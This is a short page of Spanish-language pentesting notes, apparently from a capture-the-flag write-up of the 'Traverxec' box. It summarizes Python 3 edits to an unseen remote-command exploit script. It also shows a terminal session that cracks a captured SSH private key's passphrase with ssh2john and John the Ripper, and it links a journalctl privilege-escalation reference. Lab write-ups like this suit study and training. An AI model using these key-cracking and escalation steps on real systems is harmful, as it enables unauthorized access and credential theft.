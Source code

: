 ### Cambios Realizados:

1. **Bytes vs. Cadena de texto:** En Python 3, las operaciones de socket manejan bytes en lugar de cadenas de texto como en Python 2. Por lo tanto, debemos asegurarnos de codificar las cadenas de texto antes de enviarlas y decodificar las respuestas recibidas del socket.
2. **Manejo de Excepciones:** En Python 3, las excepciones deben ser capturadas de manera explícita. He ajustado el bloque `connect()` para manejar excepciones de manera más precisa.
3. **Argumentos de Línea de Comandos:** La verificación de los argumentos de línea de comandos (`sys.argv`) se realiza para asegurar que se proporcionen los tres argumentos necesarios (`<Target_IP>`, `<Target_Port>`, `<Command>`).
4. **Uso de f-strings:** Se ha utilizado f-strings para una mejor legibilidad y manejo de cadenas formateadas.





























Crack a id_rsa
https://reddyyz.medium.com/cracking-ssh-rsa-private-keys-ead3c126df6b

```js
┌──(pelado㉿kali)-[~/…/Traverxec/home/david/.ssh]
└─$ ssh2john id_rsa > id_rsa.txt   

┌──(pelado㉿kali)-[~/…/Traverxec/home/david/.ssh]
└─$ john id_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2024-06-25 22:15) 16.66g/s 2666p/s 2666c/s 2666C/s 123456..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


https://gtfobins.github.io/gtfobins/journalctl/